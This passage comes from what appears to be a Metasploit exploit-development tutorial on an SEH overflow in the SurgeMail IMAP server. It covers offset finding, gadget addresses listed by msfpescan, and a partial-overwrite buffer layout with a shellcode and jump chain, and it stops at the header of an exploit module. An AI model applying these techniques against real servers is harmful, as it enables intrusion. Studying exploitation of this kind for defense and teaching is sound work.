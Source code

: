 ```
So we see that we call the pattern_create function which will take at most two parameters, the size of the buffer we are looking to create and an optional second parameter giving us some control of the contents of the buffer. So for our needs, we will call the function and replace our fuzzed variable with fuzzed = Rex::Text.pattern_create(11000).

This causes our SEH to be overwritten by 0x684E3368 and based on the value returned by pattern_offset.rb, we can determine that the bytes that overwrite our exception handler are the next four bytes 10361, 10362, 10363, 10364.

```root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 684E3368 11000 10360```

<img src="images/03/exploit03.png" width="480">

As it often happens in SEH overflow attacks, we now need to find a POP POP RET (other sequences are good as well as explained in “Defeating the Stack Based Buffer Overflow Prevention Mechanism of Microsoft Windows 2003 Server” Litchfield 2003) address in order to redirect the execution flow to our buffer. However, searching for a suitable return address in surgemail.exe, obviously leads us to the previously encountered problem, all the addresses have a null byte.


```
root@kali:~# msfpescan -p surgemail.exe

[surgemail.exe]
0x0042e947 pop esi; pop ebp; ret
0x0042f88b pop esi; pop ebp; ret
0x00458e68 pop esi; pop ebp; ret
0x00458edb pop esi; pop ebp; ret
0x00537506 pop esi; pop ebp; ret
0x005ec087 pop ebx; pop ebp; ret

0x00780b25 pop ebp; pop ebx; ret
0x00780c1e pop ebp; pop ebx; ret
0x00784fb8 pop ebx; pop ebp; ret
0x0078506e pop ebx; pop ebp; ret
0x00785105 pop ecx; pop ebx; ret
0x0078517e pop esi; pop ebx; ret
```

Fortunately this time we have a further attack approach to try in the form of a partial overwrite, overflowing SEH with only the 3 lowest significant bytes of the return address. The difference is that this time we can put our shellcode into the first part of the buffer following a schema like the following:

```| NOPSLED | SHELLCODE | NEARJMP | SHORTJMP | RET (3 Bytes) |```

POP POP RET will redirect us 4 bytes before RET where we will place a short JMP taking us 5 bytes back. We’ll then have a near back JMP that will take us in the middle of the NOPSLED.

This was not possible to do with a partial overwrite of EIP and ESP, as due to the stack arrangement ESP was four bytes after our RET. If we did a partial overwrite of EIP, ESP would then be in an uncontrollable area.

Next up, writing an exploit and getting a shell with what we’ve learned about our code improvements.

#### WRITING AN EXPLOIT MODULE

结合上面我们所学的，可以写出这个exploit并保存为```windows/imap/surgemail_list.rb```

```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
```